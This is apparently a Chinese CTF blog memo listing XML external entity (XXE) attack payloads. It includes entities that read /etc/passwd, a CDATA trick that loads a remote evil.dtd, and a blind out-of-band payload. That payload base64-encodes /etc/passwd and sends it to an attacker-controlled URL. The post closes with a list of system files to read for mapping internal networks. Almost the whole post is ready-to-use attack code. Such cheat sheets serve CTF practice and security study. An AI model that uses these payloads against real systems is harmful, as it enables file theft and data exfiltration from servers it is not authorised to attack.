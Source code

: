 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-08-27T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['web','CTF 笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 xxe

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## blind xxe

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
%remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```
